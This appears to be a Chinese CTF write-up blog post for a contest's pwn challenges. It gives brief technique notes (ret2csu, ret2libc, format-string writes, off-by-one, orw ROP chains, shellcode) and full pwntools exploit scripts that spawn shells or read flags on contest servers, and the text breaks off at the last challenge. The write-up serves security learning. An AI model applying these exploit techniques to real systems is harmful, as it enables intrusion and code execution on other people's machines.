



参加的第二个CTF比赛，不小心 ak Pwn了

学到了一些新东西

# old_rop

简单的ret2csu

```python
from pwn import *

context(arch='amd64', os='linux')
context.log_level = 'debug'
context.terminal = ['tmux', 'splitw', '-h']
file = './pwn'
elf = ELF(file)
libc = ELF('./libc.so.6')

choice = 1
if choice:
    port =   31452
    target = 'geek.ctfplus.cn'
    p = remote(target, port)
else:
    p = process(file)

def debug(cmd=''):
    if choice==1:
        return
    gdb.attach(p, gdbscript=cmd)


s       = lambda data               :p.send(data)
sl      = lambda data               :p.sendline(data)
sa      = lambda x,data             :p.sendafter(x, data)
sla     = lambda x,data             :p.sendlineafter(x, data)
r       = lambda num=4096           :p.recv(num)
rl      = lambda num=4096           :p.recvline(num)
ru      = lambda x                  :p.recvuntil(x)
itr     = lambda                    :p.interactive()
uu32    = lambda data               :u32(data.ljust(4,b'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
uru64   = lambda                    :uu64(ru('\x7f')[-6:])
leak    = lambda name               :log.success('{} = {}'.format(name, hex(eval(name))))
libc_os   = lambda x                :libc_base + x

bss = elf.bss(0x100)

payload = b'\x00'*(0x80+8) + p64(0x4012CA)
payload += p64(0)
payload += p64(0)
payload += p64(1)
payload += p64(elf.got['read'])
payload += p64(6)
payload += p64(elf.got['write'])
payload += p64(0x4012B0)
payload += p64(0)
payload += p64(0)
payload += p64(0)
payload += p64(0)
payload += p64(bss)
payload += p64(0x100)
payload += p64(elf.got['read'])
payload += p64(0x4012B0)
payload += p64(0)
payload += p64(0)
payload += p64(0)
payload += p64(bss + 8)
payload += p64(0)
payload += p64(0)
payload += p64(bss)
payload += p64(0x4012B0)
debug()
sa(b'!\x00\n', payload)

libc_base = uu64(r(6)) - libc.sym['read']
leak('libc_base')

s(p64(libc_os(libc.sym['execve'])) + b'/bin/sh\x00')


itr()
```


# Mission Calculator

基础pwntools使用

```python
from pwn import *

context(arch='amd64', os='linux')
context.log_level = 'debug'
context.terminal = ['tmux', 'splitw', '-h']
file = './calc'
elf = ELF(file)
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')

choice = 1
if choice:
    port =   31552
    target = 'geek.ctfplus.cn'
    p = remote(target, port)
else:
    p = process(file)


s       = lambda data               :p.send(data)
sl      = lambda data               :p.sendline(data)
sa      = lambda x,data             :p.sendafter(x, data)
sla     = lambda x,data             :p.sendlineafter(x, data)
r       = lambda num=4096           :p.recv(num)
rl      = lambda num=4096           :p.recvline(num)
ru      = lambda x                  :p.recvuntil(x)
itr     = lambda                    :p.interactive()
uu32    = lambda data               :u32(data.ljust(4,b'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
uru64   = lambda                    :uu64(ru('\x7f')[-6:])
leak    = lambda name               :log.success('{} = {}'.format(name, hex(eval(name))))
libc_os   = lambda x                :libc_base + x


sa(b'Press any key to start...', b'\n')

for i in range(50):
    problem = ru(b'=').decode().split(': ')[1].split(' =')[0]
    sl(str(eval(problem)).encode())


itr()
```


# Mission Cipher Text

简单的ret2text

用`cat flag >&2`输出到标准错误流

```python
from pwn import *

context(arch='amd64', os='linux')
context.log_level = 'debug'
context.terminal = ['tmux', 'splitw', '-h']
file = './pwn'
elf = ELF(file)
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')

choice = 1
if choice:
    port =   32133
    target = 'geek.ctfplus.cn'
    p = remote(target, port)
else:
    p = process(file)

def debug(cmd=''):
    if choice==1:
        return
    gdb.attach(p, gdbscript=cmd)


s       = lambda data               :p.send(data)
sl      = lambda data               :p.sendline(data)
sa      = lambda x,data             :p.sendafter(x, data)
sla     = lambda x,data             :p.sendlineafter(x, data)
r       = lambda num=4096           :p.recv(num)
rl      = lambda num=4096           :p.recvline(num)
ru      = lambda x                  :p.recvuntil(x)
itr     = lambda                    :p.interactive()
uu32    = lambda data               :u32(data.ljust(4,b'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
uru64   = lambda                    :uu64(ru('\x7f')[-6:])
leak    = lambda name               :log.success('{} = {}'.format(name, hex(eval(name))))
libc_os   = lambda x                :libc_base + x


sla(b'choice >', '2')

# debug()

sa(b'feedback:', b'\x00'*(0x20+8) + p64(0x4014AA) + p64(0x4014AB))

itr()

# cat flag >&2
```


# Mission Exception Registration

读入覆盖+ret2libc

```python
from pwn import *

context(arch='amd64', os='linux')
context.log_level = 'debug'
context.terminal = ['tmux', 'splitw', '-h']
file = './pwn'
elf = ELF(file)
libc = ELF('./libc.so.6')

choice = 1
if choice:
    port =   32078
    target = 'geek.ctfplus.cn'
    p = remote(target, port)
else:
    p = process(file)

def debug(cmd=''):
    if choice==1:
        return
    gdb.attach(p, gdbscript=cmd)


s       = lambda data               :p.send(data)
sl      = lambda data               :p.sendline(data)
sa      = lambda x,data             :p.sendafter(x, data)
sla     = lambda x,data             :p.sendlineafter(x, data)
r       = lambda num=4096           :p.recv(num)
rl      = lambda num=4096           :p.recvline(num)
ru      = lambda x                  :p.recvuntil(x)
itr     = lambda                    :p.interactive()
uu32    = lambda data               :u32(data.ljust(4,b'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
uru64   = lambda                    :uu64(ru('\x7f')[-6:])
leak    = lambda name               :log.success('{} = {}'.format(name, hex(eval(name))))
libc_os   = lambda x                :libc_base + x


sla(b'choice >>', b'1')
sa(b'name:\n', b'ItsFlicker')
sa(b'password:\n', b'\x00'*33)

sla(b'choice >>', b'3')
sa(b'password:\n', b'\x00'*32)

ru('WELCOME, ADMINISTRATOR.\n')
libc_base = uu64(r(6)) - libc.sym['puts']
leak('libc_base')

sla(b'choice >>', b'2')
sa(b'feedback:\n', b'\x00'*(0x10+8) + p64(libc_os(0x029cd6)) + p64(libc_os(0x02a3e5)) + p64(libc_os(0x1d8698)) + p64(libc_os(libc.sym['system'])))


# debug()

itr()
```


# 次元囚笼

使用strcpy溢出，所以不能有\0把payload截断

```python
from pwn import *

context(arch='amd64', os='linux')
context.log_level = 'debug'
context.terminal = ['tmux', 'splitw', '-h']
file = './pwn'
elf = ELF(file)
# libc = ELF('./libc.so.6')

choice = 1
if choice:
    port =   32710
    target = 'geek.ctfplus.cn'
    p = remote(target, port)
else:
    p = process(file)

def debug(cmd=''):
    if choice==1:
        return
    gdb.attach(p, gdbscript=cmd)


s       = lambda data               :p.send(data)
sl      = lambda data               :p.sendline(data)
sa      = lambda x,data             :p.sendafter(x, data)
sla     = lambda x,data             :p.sendlineafter(x, data)
r       = lambda num=4096           :p.recv(num)
rl      = lambda num=4096           :p.recvline(num)
ru      = lambda x                  :p.recvuntil(x)
itr     = lambda                    :p.interactive()
uu32    = lambda data               :u32(data.ljust(4,b'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
uru64   = lambda                    :uu64(ru('\x7f')[-6:])
leak    = lambda name               :log.success('{} = {}'.format(name, hex(eval(name))))
libc_os   = lambda x                :libc_base + x

sla(b'>> : ', b'3')
sa(b'love \n', b'love\x00')

sla(b'>> : ', b'1')
sa(b'forever\n', b'A'*(0x20+8) + p64(0x4012D9))

sla(b'>> : ', b'2')
debug()
sa(b'prayer', b'1\x00')


itr()
```


# Mission Transponder

首先将Canary最低位\0覆盖，泄露Canary，然后改返回地址最低位，重新进入函数

这一次泄露pie，进入另一个函数，用fmt泄露libc_base

然后orw

```python
from pwn import *

context(arch='amd64', os='linux')
context.log_level = 'debug'
context.terminal = ['tmux', 'splitw', '-h']
file = './pwn'
elf = ELF(file)
libc = ELF('./libc.so.6')

choice = 1
if choice:
    port =   31067
    target = 'geek.ctfplus.cn'
    p = remote(target, port)
else:
    p = process(file)

def debug(cmd=''):
    if choice==1:
        return
    gdb.attach(p, gdbscript=cmd)


s       = lambda data               :p.send(data)
sl      = lambda data               :p.sendline(data)
sa      = lambda x,data             :p.sendafter(x, data)
sla     = lambda x,data             :p.sendlineafter(x, data)
r       = lambda num=4096           :p.recv(num)
rl      = lambda num=4096           :p.recvline(num)
ru      = lambda x                  :p.recvuntil(x)
itr     = lambda                    :p.interactive()
uu32    = lambda data               :u32(data.ljust(4,b'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
uru64   = lambda                    :uu64(ru('\x7f')[-6:])
leak    = lambda name               :log.success('{} = {}'.format(name, hex(eval(name))))
libc_os   = lambda x                :libc_base + x

sa(b'data:\n', b'A'*(40+1))
ru(b'A'*41)
canary = uu64(r(7))*256
leak('canary')

stack = uu64(r(6))
leak('stack')

sa(b'logs:\n', b'A'*40 + p64(canary) + b'\x00'*8 + p8(0x92))

sa(b'data:\n', b'A'*(0x30+8))
ru(b'A'*0x38)
pie = uu64(r(6)) - (elf.sym['main'] + 19)
leak('pie')
sa(b'logs:\n', b'A'*40 + p64(canary) + b'\x00'*8 + p64(pie + elf.sym['repeat_error']))

sa(b'data:\n', b'%30$p\n\x00')
libc_base = int(p.recvline(keepends=False).decode(), 16) - (libc.sym['__libc_start_main'] + 137)
leak('libc_base')
s(b'A'*8 + p64(canary) + b'\x00'*8 + p64(pie + elf.sym['repeater']))

rax = libc_os(0x0d4f97)
rdi = libc_os(0x102dea)
rsi = libc_os(0x053887)
mov_rdx_rax = libc_os(0x128507)
syscall = pie + 0x0011DD
bss_start = pie + elf.bss(0x100)

sa(b'data:\n', b'\x00')
debug()
payload = b'A'*40 + p64(canary) + b'\x00'*8 + p64(rdi) + p64(0) + p64(rsi) + p64(bss_start) + p64(rax) + p64(6) + p64(mov_rdx_rax) + p64(rax) + p64(0) + p64(syscall)
payload += p64(rdi) + p64(bss_start) + p64(rsi) + p64(0) + p64(rax) + p64(0x40) + p64(mov_rdx_rax) + p64(rax) + p64(2) + p64(syscall)
payload += p64(rdi) + p64(3) + p64(rsi) + p64(bss_start + 0x100) + p64(rax) + p64(0x40) + p64(mov_rdx_rax) + p64(rax) + p64(0) + p64(syscall)
payload += p64(rdi) + p64(1) + p64(rsi) + p64(bss_start + 0x100) + p64(rax) + p64(0x40) + p64(mov_rdx_rax) + p64(rax) + p64(1) + p64(syscall)
s(payload)
sleep(1)
s(b'/flag\x00')

itr()
```


# Mission Ember

每次操作改一点栈帧，最后无限读，orw

```python
from pwn import *

context(arch='amd64', os='linux')
context.log_level = 'debug'
context.terminal = ['tmux', 'splitw', '-h']
file = './pwn'
elf = ELF(file)
libc = ELF('./libc.so.6')

choice = 1
if choice:
    port =   31579
    target = 'geek.ctfplus.cn'
    p = remote(target, port)
else:
    p = process(file)

def debug(cmd=''):
    if choice==1:
        return
    gdb.attach(p, gdbscript=cmd)


s       = lambda data               :p.send(data)
sl      = lambda data               :p.sendline(data)
sa      = lambda x,data             :p.sendafter(x, data)
sla     = lambda x,data             :p.sendlineafter(x, data)
r       = lambda num=4096           :p.recv(num)
rl      = lambda num=4096           :p.recvline(num)
ru      = lambda x                  :p.recvuntil(x)
itr     = lambda                    :p.interactive()
uu32    = lambda data               :u32(data.ljust(4,b'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
uru64   = lambda                    :uu64(ru('\x7f')[-6:])
leak    = lambda name               :log.success('{} = {}'.format(name, hex(eval(name))))
libc_os   = lambda x                :libc_base + x

shellcode = '''
pop rax
mov al, 0x60
pop rsi
push rax
ret
'''
# debug()
sa(b'HQ', asm(shellcode))

shellcode = '''
pop rax
mov al, 0x60
push rsi
push rax
ret
'''
# debug()
s(asm(shellcode))

shellcode = '''
pop rax
pop rax
pop rsi
pop rdx
syscall
'''
# debug()
s(asm(shellcode))

shellcode = shellcraft.open('/flag')
shellcode += shellcraft.read(3, 0x408000, 0x40)
shellcode += shellcraft.write(1, 0x408000, 0x40)
debug()
s(b'\x90'*6 + asm(shellcode))

itr()
```


# Mission Absolutely Abyss

输入负数绕过检查，然后直接改返回地址位置

```python
from pwn import *

context(arch='amd64', os='linux')
context.log_level = 'debug'
context.terminal = ['tmux', 'splitw', '-h']
file = './pwn'
elf = ELF(file)
# libc = ELF('./libc.so.6')

choice = 0
if choice:
    port =   30683
    target = 'geek.ctfplus.cn'
    p = remote(target, port)
else:
    p = process(file)

def debug(cmd=''):
    if choice==1:
        return
    gdb.attach(p, gdbscript=cmd)


s       = lambda data               :p.send(data)
sl      = lambda data               :p.sendline(data)
sa      = lambda x,data             :p.sendafter(x, data)
sla     = lambda x,data             :p.sendlineafter(x, data)
r       = lambda num=4096           :p.recv(num)
rl      = lambda num=4096           :p.recvline(num)
ru      = lambda x                  :p.recvuntil(x)
itr     = lambda                    :p.interactive()
uu32    = lambda data               :u32(data.ljust(4,b'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
uru64   = lambda                    :uu64(ru('\x7f')[-6:])
leak    = lambda name               :log.success('{} = {}'.format(name, hex(eval(name))))
libc_os   = lambda x                :libc_base + x

debug()
sla(b'array:\n', b'-1') # 0xffffffff abs32 = 1

sla(b'choice:\n', b'1')
sla(b'write: \n', b'14')
sla(b'num\n', str(0x4007DA).encode())

sla(b'choice:\n', b'1')
sla(b'write: \n', b'15')
sla(b'num\n', b'0')

sla(b'choice:\n', b'3')

itr()
```


# 血池轮回

为什么需要9天？

```python
from pwn import *

context(arch='amd64', os='linux')
context.log_level = 'debug'
context.terminal = ['tmux', 'splitw', '-h']
file = './pwn'
elf = ELF(file)
libc = ELF('./libc.so.6')

choice = 1
if choice:
    port =   30913
    target = 'geek.ctfplus.cn'
    p = remote(target, port)
else:
    p = process(file)

def debug(cmd=''):
    if choice==1:
        return
    gdb.attach(p, gdbscript=cmd)


s       = lambda data               :p.send(data)
sl      = lambda data               :p.sendline(data)
sa      = lambda x,data             :p.sendafter(x, data)
sla     = lambda x,data             :p.sendlineafter(x, data)
r       = lambda num=4096           :p.recv(num)
rl      = lambda num=4096           :p.recvline(num)
ru      = lambda x                  :p.recvuntil(x)
itr     = lambda                    :p.interactive()
uu32    = lambda data               :u32(data.ljust(4,b'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
uru64   = lambda                    :uu64(ru('\x7f')[-6:])
leak    = lambda name               :log.success('{} = {}'.format(name, hex(eval(name))))
libc_os   = lambda x                :libc_base + x

debug('b *0x40142D\nc\n')
shellcode = '''
pop rbx
push rbx
ret
'''
sa(b'? ', b'n')
sa(b'!', asm(shellcode))

shellcode = '''
mov bx, 0x13F8
ret
'''
sa(b'? ', b'n')
sa(b'!', asm(shellcode))

shellcode = '''
mov dl, 0xff
push rbx
ret
nop
'''
sa(b'? ', b'n')
sa(b'!', asm(shellcode))

s(asm(shellcraft.sh()))


itr()
```


# null_file

为了绕过munmap，必须把栈上的len改为0

printf中，可以用`%*XX$c`输出指定数量的字符

由于栈地址的数值过大，`%hn`的结果似乎是"反码"？所以输出两次

这样，只需要爆破栈地址一个字节

```python
from pwn import *
import struct

context(arch='amd64', os='linux')
# context.log_level = 'debug'
context.terminal = ['tmux', 'splitw', '-h']
file = './pwn'
elf = ELF(file)
# libc = ELF('./libc.so.6')

shellcode = asm(shellcraft.sh())
if len(shellcode) % 2 != 0:
    shellcode += b'\x90'
words = struct.unpack('<' + 'H' * (len(shellcode)//2), shellcode)

def solve(p):
    
    s       = lambda data               :p.send(data)
    sa      = lambda x,data             :p.sendafter(x, data)
    rl      = lambda num=4096           :p.recvline(num)
    itr     = lambda                    :p.interactive()

    def debug(cmd=''):
        if choice==1:
            return
        gdb.attach(p, gdbscript=cmd)
    # debug('b *$rebase(0x0014F2)\nc\nstack 45')
    sa(b'actions: \n', f'%*19$c%19$hn\n'.encode())
    sa(b'actions: \n', f'%*39$c%19$hn\n'.encode())
    sa(b'actions: \n', f'%{0x20}c%19$hhn\n'.encode())
    sa(b'actions: \n', f'%39$hn\n'.encode())


    for i in words:
        sa(b'actions: \n', f'%{i}c%11$hn\n'.encode())


    sa(b'actions: \n', f'%{0x10}c%19$hhn\n'.encode())
    
    sa(b'actions: \n', f'%8c%39$hhn\n'.encode())
    # gdb.attach(p)
    sa(b'actions: \n', b'\n'*16)
    s(b'cat /flag\n')
    return rl()


for i in range(100):
    choice = 1
    if choice:
        port =   31352
        target = 'geek.ctfplus.cn'
        p = remote(target, port)
    else:
        p = process(file, aslr=True)
    try:
        print(solve(p))
        break
    except:
        p.close()


```


# Mission Shadow

annontation存在off by one

按下图布局：（其实有一步是冗余的，但我懒得重新搞了）




```python
from pwn import *

context(arch='amd64', os='linux')
context.log_level = 'debug'
context.terminal = ['tmux', 'splitw', '-h']
file = './pwn'
elf = ELF(file)
libc = ELF('./libc.so.6')

choice = 1
if choice:
    port =   30337
    target = 'geek.ctfplus.cn'
    p = remote(target, port)
else:
    p = process(file)

def debug(cmd=''):
    if choice==1:
        return
    gdb.attach(p, gdbscript=cmd)


s       = lambda data               :p.send(data)
sl      = lambda data               :p.sendline(data)
sa      = lambda x,data             :p.sendafter(x, data)
sla     = lambda x,data             :p.sendlineafter(x, data)
r       = lambda num=4096           :p.recv(num)
rl      = lambda num=4096           :p.recvline(num)
ru      = lambda x                  :p.recvuntil(x)
itr     = lambda                    :p.interactive()
uu32    = lambda data               :u32(data.ljust(4,b'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
uru64   = lambda                    :uu64(ru('\x7f')[-6:])
leak    = lambda name               :log.success('{} = {}'.format(name, hex(eval(name))))
libc_os   = lambda x                :libc_base + x

sla(b'choice>> ', b'3')
ru(b'detected: ')
pie = int(p.recvline(keepends=False).decode(), 16) - elf.sym['shadow']
leak('pie')

task_list = pie + elf.sym['task_list']

sla(b'choice>> ', b'1')
sla(b'choice>> ', b'1') # commit_feedback
sa(b'):\n', b'/bin/sh\x00\n')

sla(b'choice>> ', b'1')
sla(b'choice>> ', b'2') # show_time -> smash
sa(b'):\n', b'A'*16 + p8(0x4B))

sla(b'choice>> ', b'1')
sla(b'choice>> ', b'2') # show_time -> leave; ret
sa(b'):\n', b'A'*16 + p8(0x73))

sla(b'choice>> ', b'1')
sla(b'choice>> ', b'3') # dance
sa(b'):\n', b'\n')

sla(b'choice>> ', b'1')
sla(b'choice>> ', b'2') # show_time
sa(b'):\n', p64(task_list) + p64(pie + elf.sym['dance'] + 20) + p8(0))

sla(b'choice>> ', b'1')
sla(b'choice>> ', b'2') # show_time
sa(b'):\n', p64(pie + elf.sym['unreachable'] + 4) + b'sh\n')

sla(b'choice>> ', b'1')
sla(b'choice>> ', b'2') # show_time
sa(b'):\n', p64(task_list + 0x60) + p64(pie + elf.sym['execute_task'] + 137) + b'\n')


sla(b'choice>> ', b'2')

# debug()
sa(b'feedback:\n', b'A'*0x10 + p64(task_list + 0x90))

sa(b'about.\n', p64(task_list) + p64(pie + elf.sym['unreachable'] + 4))

s(b'A'*0x10 + p64(task_list))


itr()
```


# last_rop

按%d读入，又按%x放入，于是rop链中的地址只能包含0~9

这里找到了mov rax, r12，而r12指向的内容可以控制

注意：不能继续往下输入(r13)使得环境变量被覆盖，否则system("sh")无法正常运行

```python
from pwn import *

context(arch='amd64', os='linux')
context.log_level = 'debug'
context.terminal = ['tmux', 'splitw', '-h']
file = './pwn'
elf = ELF(file)
# libc = ELF('./libc.so.6')

choice = 0
if choice:
    port =   31347
    target = 'geek.ctfplus.cn'
    p = remote(target, port)
else:
    p = process(file)

def debug(cmd=''):
    if choice==1:
        return
    gdb.attach(p, gdbscript=cmd)


s       = lambda data               :p.send(data)
sl      = lambda data               :p.sendline(data)
sa      = lambda x,data             :p.sendafter(x, data)
sla     = lambda x,data             :p.sendlineafter(x, data)
r       = lambda num=4096           :p.recv(num)
rl      = lambda num=4096           :p.recvline(num)
ru      = lambda x                  :p.recvuntil(x)
itr     = lambda                    :p.interactive()
uu32    = lambda data               :u32(data.ljust(4,b'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
uru64   = lambda                    :uu64(ru('\x7f')[-6:])
leak    = lambda name               :log.success('{} = {}'.format(name, hex(eval(name))))
libc_os   = lambda x                :libc_base + x

# debug('b *0x401A26\nc\n')
# debug('b *0x401914\nc\n')

sla(b'rop! ', b'1')
sla(b'rop! ', b'2')
sla(b'rop! ', b'3')
sla(b'rop! ', str(400000001).encode()) # i
sla(b'rop! ', str(416087).encode()) # 0x416087 : mov rax, r12 ; pop r12 ; pop r13 ; pop rbp ; ret
sla(b'rop! ', b'1')
sla(b'rop! ', b'2')
sla(b'rop! ', b'3')
# sla(b'rop! ', str(401965).encode())
sla(b'rop! ', str(401914).encode()) # blah : mov rdi, rax ; call system

for i in range(30): # r12
    sla(b'rop! ', str(6873).encode()) # sh
    # sla(b'rop! ', str(3024).encode()) # $0 也可以

# debug('b *0x4019c0\nc\n')
sla(b'rop! ', b'0')

itr()
```


# Mission Sink

alloca会在栈上分配空间，但不会清空，以此泄露libc_base和Canary

```python
from pwn import *

context(arch='amd64', os='linux')
context.log_level = 'debug'
context.terminal = ['tmux', 'splitw', '-h']
file = './pwn'
elf = ELF(file)
libc = ELF('./libc.so.6')

choice = 1
if choice:
    port =   32363
    target = 'geek.ctfplus.cn'
    p = remote(target, port)
else:
    p = process(file)

def debug(cmd=''):
    if choice==1:
        return
    gdb.attach(p, gdbscript=cmd)


s       = lambda data               :p.send(data)
sl      = lambda data               :p.sendline(data)
sa      = lambda x,data             :p.sendafter(x, data)
sla     = lambda x,data             :p.sendlineafter(x, data)
r       = lambda num=4096           :p.recv(num)
rl      = lambda num=4096           :p.recvline(num)
ru      = lambda x                  :p.recvuntil(x)
itr     = lambda                    :p.interactive()
uu32    = lambda data               :u32(data.ljust(4,b'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
uru64   = lambda                    :uu64(ru('\x7f')[-6:])
leak    = lambda name               :log.success('{} = {}'.format(name, hex(eval(name))))
libc_os   = lambda x                :libc_base + x

debug('b struggle\nc\n')

for i in range(6):
    sla(b'Your choice: \n', b'4')
    sla(b'going?\n', str(0x101).encode())

sla(b'Your choice: \n', b'4')
sla(b'going?\n', str(0x40-23).encode())
ru(b'I need you.\n')
libc_base = uu64(r(8)) - (libc.sym['puts'] + 506)
leak('libc_base')

sla(b'Your choice: \n', b'4')
sla(b'going?\n', str(0x130-23).encode())
ru(b'I need you.\n')
canary = uu64(r(8))
leak('canary')

sla(b'Your choice: \n', b'1')
payload = b'A'*(0x20-8) + p64(canary) + p64(0) + p64(libc_os(0xe5ff0))
sa(b'love me?\n', payload)


itr()
```


# Mission Anabiosis

用链表结构保存数据

用off by null进入管理员模式

泄露链表指针得知pie，然后ret2libc

```python
from pwn import *

context(arch='amd64', os='linux')
context.log_level = 'debug'
context.terminal = ['tmux', 'splitw', '-h']
file = './pwn'
elf = ELF(file)
libc = ELF('./libc.so.6')

choice = 1
if choice:
    port =   30411
    target = 'geek.ctfplus.cn'
    p = remote(target, port)
else:
    p = process(file)

def debug(cmd=''):
    if choice==1:
        return
    gdb.attach(p, gdbscript=cmd)


s       = lambda data               :p.send(data)
sl      = lambda data               :p.sendline(data)
sa      = lambda x,data             :p.sendafter(x, data)
sla     = lambda x,data             :p.sendlineafter(x, data)
r       = lambda num=4096           :p.recv(num)
rl      = lambda num=4096           :p.recvline(num)
ru      = lambda x                  :p.recvuntil(x)
itr     = lambda                    :p.interactive()
uu32    = lambda data               :u32(data.ljust(4,b'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
uru64   = lambda                    :uu64(ru('\x7f')[-6:])
leak    = lambda name               :log.success('{} = {}'.format(name, hex(eval(name))))
libc_os   = lambda x                :libc_base + x

sa(b'Your choice:\n', b'1')
ru(b'uid is:')
uid = int(p.recvline(keepends=False).decode())
sa(b'name: ', b'mxym')
sa(b'data: ', b'A')

sa(b'Your choice:\n', b'3')
sa(b'uid to edit: ', str(uid).encode())
sa(b'name: ', b'A'*16)
sa(b'data: ', b'A')

sa(b'Your choice:\n', b'1')
sa(b'name: ', b'ItsFlicker')
sa(b'data: ', b'/bin/sh\x00')

sa(b'Your choice:\n', b'0')
sla(b'uid: ', str(uid).encode())

sa(b'Your choice:\n', b'6')
sa(b'Your choice:\n', b'2')
sla(b'index to edit: ', b'1')
sa(b'data: ', b'A'*0x80)

sa(b'Your choice:\n', b'3')
sa(b'Your choice:\n', b'4')
sa(b'uid to show: ', str(uid).encode())

ru(b'A'*0x80)
pie = uu64(r(6)) - (elf.sym['node_pool'] + 168)
leak('pie')

sa(b'Your choice:\n', b'0')
sla(b'uid: ', str(uid).encode())

sa(b'Your choice:\n', b'6')
sa(b'Your choice:\n', b'4')
debug()
payload = b'A'*(0x10+8) + p64(pie + 0x001cf4) + p64(pie + elf.got['puts']) + p64(pie + elf.plt['puts']) + p64(pie + 0x001CD9)
sa(b'I love you.\n', payload)

libc_base = uu64(r(6)) - (libc.sym['puts'])
leak('libc_base')

payload = b'A'*(0x10+8) + p64(pie + 0x001cf4) + p64(pie + elf.sym['node_pool'] + 376) + p64(libc_os(libc.sym['system']))
sa(b'I love you.\n', payload)

itr()
```


# Mission Memory Cloister

改got_exit，然后把got_rand改为one_gadget，返回地址改为sharp

```python
from pwn import *

